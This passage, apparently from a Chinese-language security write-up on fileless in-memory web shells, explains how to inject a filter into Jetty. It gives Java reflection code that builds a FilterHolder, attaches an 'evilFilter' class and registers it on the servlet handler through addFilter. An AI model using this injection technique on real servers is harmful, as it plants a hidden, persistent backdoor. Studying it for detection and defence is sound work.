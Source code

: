 - 参数 source
  - 标识FilterHolder的来源，此处为JAVAX_API

![image-20211219013056371](fileless-shell.assets/image-20211219013056371.png)

反射调用创建FilterHolder

- FilterHolder 是 Filter  的包装类，每一个Filter与其拦截路径的映射会被封装成 FilterMapping。

```java
ClassLoader classLoader = servletHandler.getClass().getClassLoader();
Class source = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
Field JAVAX_API= source.getDeclaredField("JAVAX_API");
Method method = servletHandler.getClass().getMethod("newFilterHolder", source);
Object filterHolder  = method.invoke(servletHandler, JAVAX_API.get(null));
```

反射调用setName和setFilter

```java
Method setName = filterHolder.getClass().getMethod("setName", String.class);
setName.invoke(filterHolder, evilFilter.getName());
Method setFilter = filterHolder.getClass().getMethod("setFilter", Filter.class);
setFilter.invoke(filterHolder, evilFilter.newInstance());
```

##### addFilter

![image-20211219015429473](fileless-shell.assets/image-20211219015429473.png)

```java
Method addFilter = servletHandler.getClass().getMethod("addFilter", filterHolder.getClass());
addFilter.invoke(servletHandler, filterHolder);
```
